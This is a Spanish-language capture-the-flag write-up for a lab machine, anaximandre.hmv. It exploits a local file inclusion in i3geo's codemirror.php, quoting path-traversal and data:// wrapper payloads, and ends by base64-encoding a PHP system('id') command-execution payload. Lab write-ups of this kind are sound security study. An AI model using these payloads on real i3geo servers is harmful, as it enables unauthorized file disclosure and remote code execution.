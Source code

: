 Agregamos al /etc/hosts
```bash
❯ cat /etc/hosts
───────┬────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ ::1     localhost ip6-localhost ip6-loopback
   4   │ ff02::1     ip6-allnodes
   5   │ ff02::2     ip6-allrouters
   6   │ 
   7   │ 10.0.2.27 movie.hmv
   8   │ 10.0.2.33 anaximandre.hmv lovegeografia.anaximandre.hmv
───────┼────────────────────────────────────────────────────────────────────────────────
```

Ya en la pagina lo primero que hice fue probar ese LFI

![](img/anax1.png)

Buscando sobre i3geo encuentro un github https://github.com/wagnerdracha/ProofOfConcept/blob/main/i3geo/i3geo_proof_of_concept.txt

Que justo prueba el mismo LFI
```txt
To exploit vulnerability:
- http://.../i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd
- http://.../i3geo/exemplos/codemirror.php?&pagina=data://text/plain;base64,SEFDS0VE
```
Con cyberchef hago el cambio a base64
``<?php system('id'); ?>`` --- ``PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==``
